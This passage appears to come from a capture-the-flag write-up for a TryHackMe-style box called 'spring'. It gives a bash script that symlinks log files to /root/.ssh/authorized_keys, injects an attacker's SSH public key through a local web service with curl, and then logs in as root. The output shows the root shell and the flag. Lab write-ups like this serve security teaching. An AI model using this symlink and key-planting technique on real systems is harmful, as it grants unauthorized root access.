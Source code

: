 ```bash
for i in {1..30}
do
 #create symlinks to /root/.ssh/authorized_keys for 30 seconds
 let time=$(( d + i ))
 ln -s /root/.ssh/authorized_keys "$time.log"
done

#wait for app to restart
sleep 30s

#send publickey as name to the greating server
curl --data-urlencode "name=$pubkey" https://localhost/ -k
sleep 5s

#connect as root
ssh  -o "StrictHostKeyChecking=no" -i ./key root@localhost
```

and run it;

```
bash get_root.sh
```

```
{"message":"Shutting down, bye..."}Hello, ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMoEnVMdfWYW+36UG4GS4/ab/wBHEOCvGpSTTIdnDXPC johnsmith@spring!Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.
root@spring:~# pwd
/root
root@spring:~# 
root@spring:~# ls -al
total 168
drwx------  6 root root 135168 Jul 12  2020 .
drwxr-xr-x 24 root root   4096 Jul  3  2020 ..
lrwxrwxrwx  1 root root      9 Jul 10  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root   3106 Apr  9  2018 .bashrc
drwx------  2 root root   4096 Jul 10  2020 .cache
drwx------  3 root root   4096 Jul 10  2020 .gnupg
drwxr-xr-x  3 root root   4096 Jul 10  2020 .local
-rw-r--r--  1 root root    148 Aug 17  2015 .profile
-r--------  1 root root     33 Jul 10  2020 root.txt
drwx------  2 root root   4096 Jul 10  2020 .ssh
-rwx------  1 root root    509 Jul 12  2020 start_tomcat.sh
root@spring:~# cat root.txt 
THM{sshd_does_not_mind_the_junk}
root@spring:~# 
```

Done!

